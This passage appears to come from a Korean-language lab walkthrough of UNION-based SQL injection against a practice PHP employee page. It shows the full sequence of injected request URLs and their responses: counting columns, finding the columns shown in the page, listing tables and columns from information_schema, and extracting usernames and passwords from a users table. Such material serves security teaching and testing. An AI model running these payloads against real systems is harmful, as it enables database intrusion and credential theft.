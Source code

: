 데이터베이스와 통신한 다는 것을 확인했다.

3. 컬럼 갯수 확인
```bash
https://.../sqli_union_ex1.php?name=Jet%20Black%27+ORDER+BY+6--+

Employee Info

Something is wrong!
```
6번째에서 다른 결과가 출력되었으니, 5개의 칼럼을 가지고 있는 것을 확인.

4. HTTP 응답에 표시되어 공격할 수 있는 칼럼을 찾는다.
```bash
https://.../sqli_union_ex1.php?name=Jet%20Black%27+UNION+ALL+SELECT+1,2,3,4,5--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
1	3	4	2
```
1,2,3,4 번 칼럼이 응답에 표시된다.

5. 1~4번 칼럼을 이용해 데이터베이스명과 테이블명, 컬럼을 파악한다
```bash
# DB명
https://.../sqli_union_ex1.php?name=Jet%20Black%27+UNION+ALL+SELECT+database(),2,3,4,5--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
mydb	3	4	2

# 테이블명
https://.../sqli_union_ex1.php?name=Jet%20Black%27+UNION+ALL+SELECT+group_concat(table_name),2,3,4,5+FROM+information_schema.TABLES+WHERE+table_schema=database()--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
board,employees,products,users	3	4	2

# 컬럼명
https://.../sqli_union_ex1.php?name=Jet%20Black%27+UNION+ALL+SELECT+group_concat(column_name),2,3,4,5+FROM+information_schema.COLUMNS+WHERE+table_schema=database()+AND+table_name=%27users%27--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
user_sn,user_id,user_name,password,join_date,birth_date,gender,email	3	4	2
```

6. 데이터 추출 진행.
```bash
https://.../sqli_union_ex1.php?name=Jet%20Black%27+UNION+ALL+SELECT+group_concat(concat(user_id,0x3a,password)),2,3,4,5+FROM+mydb.users--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
admin:pass,spike:ilovejulia,faye:oldwoman,jet:bebopismine	3	4	2
```

